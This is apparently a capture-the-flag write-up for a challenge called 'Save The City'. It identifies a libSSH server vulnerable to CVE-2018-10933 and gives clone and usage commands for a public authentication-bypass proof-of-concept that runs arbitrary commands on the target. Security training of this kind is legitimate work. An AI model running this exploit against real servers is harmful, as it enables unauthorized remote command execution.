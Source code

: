 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

## CVE-2018-10933 Proof of Concept

This repository contains a proof of concept for CVE-2018-10933.

### Installation

Clone the repository:

```bash
git clone https://github.com/blacknbunny/CVE-2018-10933.git
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```py
python libsshauthbypass.py --host <ip> --port <port> --command <command_line>
```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```py
python libsshauthbypass.py --host 192.168.1.100 --port 22 --command "whoami"
```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.